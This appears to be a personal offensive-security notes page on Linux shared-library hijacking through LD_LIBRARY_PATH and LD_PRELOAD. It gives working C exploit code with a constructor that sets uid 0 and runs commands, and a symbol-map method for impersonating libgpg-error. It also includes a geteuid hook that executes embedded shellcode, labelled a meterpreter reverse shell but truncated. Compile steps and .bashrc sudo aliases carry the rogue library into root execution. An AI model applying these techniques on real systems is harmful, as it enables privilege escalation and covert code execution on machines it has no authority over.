 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


<span style="font-size: 35px; color:red"><b>Shared Libraries - LD_LIBRARY_PATH</b></span>
&nbsp;

Like DLLs on windows, but on linux.
This shared libs are in the following folders (ordered by importance):
- RPATH
- LD_LIBRARY_PATH
- RUNPATH
- /etc/ld.so.conf
- /lib, /lib64, /usr/lib, /usr/lib64, /usr/local/lib, /usr/local/lib64, and potentially others.


<span style="font-size: 25px; color:white"><b>LD_LIBRARY_PATH</b></span>

Code to insert in .bashrc or .bash_profile to define the LD_LIBRARY_PATH

I.E. the target system is running `top` each 3 minutes. `top` uses shared libraries. We can trick the system into loading a fake shared library containing an exploit developed by us.

0) (<font style="color:#981f3a">On most modern systems, user environment variables are not passed on when using sudo. This setting is configured in the /etc/sudoers file by using the _env_reset_ keyword as a default. Some systems are configured to allow a user's environment to be passed on to sudo. These will have _env_keep_ set instead.</font> To solve this, set an alias in .bashrc  `alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"` and remember to use `source`. Also try `alias sudo = 'sudo -E'` if not working.)

1) Exploit to build to create shared library with payload:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void runmahpayload() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow; //change these lines with the ones found in point 5
int gpgrt_feof_unlocked;

void runmahpayload() {
	setuid(0);
	setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");     //actual exploit
    system("touch /tmp/haxso.txt");
}
```

2) To compile:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -o libhax.so hax.o
```
This will produce <span style="color:red">libhax.so</span>

4) To check the libraries loaded by <span style="color:red">top</span>:
```shell
ldd /usr/bin/top
```
Check what libraries you see and chose one that might not prevent normal use of the application.

6) Set the environment variable and set the name of the exploit library to the one we want to hijack:
```shell
export LD_LIBRARY_PATH=/home/offsec/ldlib/
cp libhax.so libgpg-error.so.0 (in folder specified above!)
```

8) Find missing symbols (replace <span style="color:red">libgpg-error.so.0</span> with the library you are replacing):
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
and copy output to the exploit shown in point 1.

10) It might be that we still miss some symbols (based on the output error from running <span style="color:red">top</spen>), you can find them like so:
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
You can wrap the symbols into a symbol map file (<span style="color:red">gpg.map</span>) like this:
```
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
...
gpgrt_fflush;
gpgrt_poll;
			//remember to add white line here
};
```

And compile everything again like so:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

7) If not specifying the new Library path on the .bashrc/.bash_profile files, remember to export the library path: <span style="color:red">export LD_LIBRARY_PATH=/home/offsec/ldlib/</span> and run the command. To run it with <span style="color:red">sudo</span>, check point 0.

&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Shared Libraries - LD_PRELOAD</b></span>

I.E Let's attack <span style="color:red">cp</span>.

1) <span style="color:red">ltrace cp</span> to see the various functions used by cp and find one that is used only once and possibly without input parameters. We'll redefine that function.
2) If the function that we found is - for instance - _geteuid()_, the .c exploit is the following:
```c
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = "\x48\x31\xff\x6...  //c meterpreter revshell

uid_t geteuid(void)
{
	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");
	if (fork() == 0)
	        {
	                intptr_t pagesize = sysconf(_SC_PAGESIZE);
	                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
	                 pagesize, PROT_READ|PROT_EXEC)) {
	                        perror("mprotect");
	                        return -1;
	                }
	                int (*ret)() = (int(*)())buf;
	                ret();
	        }
	        else
	        {
	                printf("HACK: returning from function...\n");
	                return (*old_geteuid)();
	        }
	        printf("HACK: Returning from main...\n");
	        return -2;
}
```

3) Compile it like:
```shell
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

4) After opening a meterpreter shell, test the executable like so (before and after loading library, as shown below):
```shell
cp /etc/passwd /tmp/testpasswd
export LD_PRELOAD=/home/offsec/evil_geteuid.so
cp /etc/passwd /tmp/testpasswd
```

4) To run as root:
```shell
unset LD_PRELOAD
```
Also add to .bashrc:
```shell
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```
and run the command with sudo.
